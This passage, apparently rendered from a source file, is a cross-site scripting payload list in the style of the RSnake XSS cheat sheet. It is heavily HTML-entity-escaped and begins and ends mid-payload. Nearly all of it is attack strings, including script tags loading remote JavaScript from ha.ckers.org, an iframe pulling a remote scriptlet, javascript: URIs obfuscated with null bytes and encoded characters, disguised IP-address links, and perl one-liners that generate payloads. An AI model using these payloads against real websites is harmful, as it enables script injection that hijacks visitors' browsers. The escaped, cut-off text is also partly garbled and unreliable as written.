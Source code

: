 =\"&amp;gt;\" SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT a=\"&amp;gt;\" '' SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT \"a='&amp;gt;'\" SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT a=`&amp;gt;` SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT a=\"&amp;gt;'&amp;gt;\" SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT&amp;gt;document&amp;#46;write(\"&amp;lt;SCRI\");&amp;lt;/SCRIPT&amp;gt;PT SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//66&amp;#46;102&amp;#46;7&amp;#46;147/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//1113982867/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//0x42&amp;#46;0x0000066&amp;#46;0x7&amp;#46;0x93/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//0102&amp;#46;0146&amp;#46;0007&amp;#46;00000223/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"htt p&amp;#58;//6 6&amp;#46;000146&amp;#46;0x7&amp;#46;147/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"//www&amp;#46;google&amp;#46;com/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"//google\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org@google\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//google&amp;#58;ha&amp;#46;ckers&amp;#46;org\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//google&amp;#46;com/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//www&amp;#46;google&amp;#46;com&amp;#46;/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"javascript&amp;#058;document&amp;#46;location='http&amp;#58;//www&amp;#46;google&amp;#46;com/'\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt;A HREF=\"http&amp;#58;//www&amp;#46;gohttp&amp;#58;//www&amp;#46;google&amp;#46;com/ogle&amp;#46;com/\"&amp;gt;XSS&amp;lt;/A&amp;gt; &amp;lt; %3C &amp;lt &amp;lt; &amp;LT &amp;LT; &amp;#60 &amp;#060 &amp;#0060 &amp;#00060 &amp;#000060 &amp;#0000060 &amp;lt; &amp;#x3c &amp;#x03c &amp;#x003c &amp;#x0003c &amp;#x00003c &amp;#x000003c &amp;#x3c; &amp;#x03c; &amp;#x003c; &amp;#x0003c; &amp;#x00003c; &amp;#x000003c; &amp;#X3c &amp;#X03c &amp;#X003c &amp;#X0003c &amp;#X00003c &amp;#X000003c &amp;#X3c; &amp;#X03c; &amp;#X003c; &amp;#X0003c; &amp;#X00003c; &amp;#X000003c; &amp;#x3C &amp;#x03C &amp;#x003C &amp;#x0003C &amp;#x00003C &amp;#x000003C &amp;#x3C; &amp;#x03C; &amp;#x003C; &amp;#x0003C; &amp;#x00003C; &amp;#x000003C; &amp;#X3C &amp;#X03C &amp;#X003C &amp;#X0003C &amp;#X00003C &amp;#X000003C &amp;#X3C; &amp;#X03C; &amp;#X003C; &amp;#X0003C; &amp;#X00003C; &amp;#X000003C; \x3c \x3C \u003c \u003C &amp;lt;iframe src=http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/scriptlet&amp;#46;html&amp;gt; &amp;lt;IMG SRC=\"javascript&amp;#058;alert('XSS')\" &amp;lt;SCRIPT SRC=//ha&amp;#46;ckers&amp;#46;org/&amp;#46;js&amp;gt; &amp;lt;SCRIPT SRC=http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js?&amp;lt;B&amp;gt; &amp;lt;&amp;lt;SCRIPT&amp;gt;alert(\"XSS\");//&amp;lt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT/SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;BODY onload!#$%&amp;()*~+-_&amp;#46;,&amp;#58;;?@&amp;#91;/|\&amp;#93;^`=alert(\"XSS\")&amp;gt; &amp;lt;SCRIPT/XSS SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;IMG SRC=\"   javascript&amp;#058;alert('XSS');\"&amp;gt; perl -e 'print \"&amp;lt;SCR\0IPT&amp;gt;alert(\\"XSS\\")&amp;lt;/SCR\0IPT&amp;gt;\";' &amp;gt; out perl -e 'print \"&amp;lt;IMG SRC=java\0script&amp;#058;alert(\\"XSS\\")&amp;gt;\";' &amp;gt; out &amp;lt;IMG SRC=\"jav&amp;#x0D;ascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;IMG SRC=\"jav&amp;#x0A;ascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;IMG SRC=\"jav&amp;#x09;ascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;IMG SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29&amp;gt; &amp;lt;IMG SRC=&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041&amp;gt; &amp;lt;IMG SRC=javascript&amp;#058;alert('XSS')&amp;gt; &amp;lt;IMG SRC=javascript&amp;#058;alert(String&amp;#46;fromCharCode(88,83,83))&amp;gt; &amp;lt;IMG \"\"\"&amp;gt;&amp;lt;SCRIPT&amp;gt;alert(\"XSS\")&amp;lt;/SCRIPT&amp;gt;\"&amp;gt; &amp;lt;IMG SRC=`javascript&amp;#058;alert(\"RSnake says,